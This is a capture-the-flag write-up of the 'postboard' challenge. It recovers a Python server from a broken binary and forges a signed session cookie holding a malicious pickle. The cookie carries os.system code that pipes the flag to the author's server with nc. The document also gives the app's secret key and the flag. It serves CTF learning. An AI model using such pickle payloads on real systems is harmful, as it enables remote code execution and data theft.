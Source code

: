 ```
postboard
420

I made a post on this new forum, but the memes were so dank that the admin disabled it! I managed to get my hands on a broken binary for the server, can you figure out how to pwn it and retrieve my memes?

46.101.248.243 1337

NOTE: if you are getting server 500 errors, clear your cookies
```

By searching in broken binary for `__main__` or something like `This post has been disabled by the admin for being too dank.` we can find `0x881D40` offset and `0x8C8FE0` offset. After that by checking the cross references we can find `PyImport_ImportFrozenModule` function at `0x41DFDD`. This function finds the frozen module and loads it using `PyMarshal_ReadObjectFromString`. So we can extract the frozen module from `0x8C8FE0` and using `marshal.loads(frozen_module)` we can extract the code. After that by using `meta` module we can get .py file.

```python
import marshal
frozen_module=open("server.b","rb").read()
code=marshal.loads(frozen_module)
import meta, ast
mod = meta.decompile(code)
source = meta.dump_python_source(mod)
```

Here the source variable is the string of the .py file which can be seen [here.](server.py)

By inspecting this file first we spot the cPickle. The script reads the `sesion['auth']` from cookie(encrypted but we have the key at the bottom of the code) and loads it. So now we can use pickle exploit. For signing the pickle I run my own server using flask and the same key and copied the crafted cookie.

At first I tried to do `system('cat ../flagdir/flag 2>&1 | nc ip_of_my_server 10101')` and opened the server using `nc -lvp 10101` but I got permission denied error. The file was owned by `root` however we are `post`. So I used another method that can be found [here.](https://www.cs.uic.edu/~s/musings/pickle/).

```python
def foo():
  import os
  global posts
  flagg = posts["flag"].i
  os.system('echo "'+flagg+'" | nc ip_of_my_server 10101')

@app.route('/<arg>', methods=['POST', 'GET'])
def index(arg):
    res = """ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR.""" % base64.b64encode(marshal.dumps(foo.func_code))
    session['auth'] = res
    return "asdasdasd"
    return None

app.secret_key = 'can_y0u_5Teal_mY+seCr3t-key'
app.run(port=1337, debug=False, host='0.0.0.0')
```

The answer is `BLAZE{pickle_is_super_secure_with_signing_right?}`
